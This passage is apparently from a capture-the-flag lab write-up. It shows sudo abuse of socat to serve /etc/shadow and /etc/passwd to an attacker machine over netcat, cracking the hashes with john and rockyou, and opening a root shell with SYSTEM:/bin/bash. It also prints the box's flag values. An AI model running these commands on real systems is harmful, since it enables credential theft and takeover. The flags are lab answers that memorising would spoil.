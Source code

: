 we will copy this shadow file to our linux machine
# sudo socat TCP4-LISTEN:4444,reuseaddr  OPEN:/etc/shadow
# (kali) netcat 10.10.120.193 4444 > shadow
 
and we do need there passwd file too...
# sudo socat TCP4-LISTEN:4444,reuseaddr  OPEN:/etc/passwd
# (kali) netcat 10.10.120.193 4444 > passwd
 
so we got our 2 files
now we need to unshadow them and use john to crack them
 
# unshadow passwd shaodw > hash
# john hash --wordlist=/usr/share/wordlists/rockyou.txt
 
this can take some time in the meantime lets explorer other methods of priv escelation
get a root shell insted of getting files can be very simple and would have save us some time with john
we just need to replace OPEN with SYSTEM and /etc/passwd with /bin/bash or any shell you want
 
# sudo socat TCP4-LISTEN:4444,reuseaddr  SYSTEM:/bin/bash
'''
whoami
root
'''
 
easely enoght we got ourself a root shell just like that
now to get our flags
 
 
# cat /home/falconfeast/user.txt
'''
60989655118397345799
'''
 
# cat /root/root.txt
'''
42964104845495153909
'''
 
 
# conclution
 